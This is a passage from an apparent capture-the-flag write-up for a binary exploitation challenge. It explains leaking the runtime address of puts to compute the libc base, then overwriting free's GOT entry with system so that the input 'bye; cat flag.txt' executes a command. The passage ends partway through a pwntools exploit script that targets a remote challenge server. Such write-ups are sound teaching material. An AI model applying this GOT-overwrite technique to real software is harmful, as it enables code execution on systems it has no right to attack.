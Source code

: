 ```
vaddr=0x00602060 paddr=0x00002060 type=SET_64 __isoc99_scanf
vaddr=0x00602068 paddr=0x00002068 type=SET_64 getline
```

Once we have the runtime address of `puts`, we subtract from it the fixed address of `puts` in the LibC binary we have, and get the runtime base address of LibC.

Then, we can calculate the runtime address of any LibC function (e.g. `system`) and replace some other GOT entry with our chosen address. When the program calls the original function, our function will be called instead.

Our victim will be `free`, since:
1. It is located at 0x00602018 - an address which we can access
2. It hold a pointer to the buffer which contains the command we enter - and therefore control
3. We can control when it is called (when we quit the program - in order to cleanup resources)

```assembly
.-----------------------------------.
|  0x400b3c [gr]                    |
| ; [0x8:8]=-1                      |
| ; 8                               |
| mov rdi, qword [line_ptr]         |
| ; void free(void *ptr)            |
| call sym.imp.free;[gAe]           |
| ; [0x28:8]=-1                     |
| ; '('                             |
| ; 40                              |
| mov rax, qword [local_28h]        |
| xor rax, qword fs:[0x28]          |
| jne 0x400b6a;[gAf]                |
`-----------------------------------'
```

So, our plan (after calculating the LibC base address) is:
1. Replace `free` with `system`
2. Enter a command of `bye; cat flag.txt`
3. The program will quit, attempt to free the command buffer and end up calling `system` with `bye; cat flag.txt`, which will eventually print the flag.


Putting it all together:
```python
from pwn import *
import argparse
import os
import string

#context.log_level = "debug"
LOCAL_PATH = "./sum"

def get_process(is_remote = False):
    if is_remote:
        return remote("35.207.132.47", 22226)
    else:
        return process(LOCAL_PATH)

def get_libc_path(is_remote = False):
    if is_remote:
        return "./libc-2.27.so"
    else:
        return "/lib/x86_64-linux-gnu/libc.so.6"

def read_menu(proc):
    proc.recvuntil("\n> ")

def set_addr(proc, addr, value):
    log.info("Setting address {} to value {}".format(hex(addr), hex(value)))
```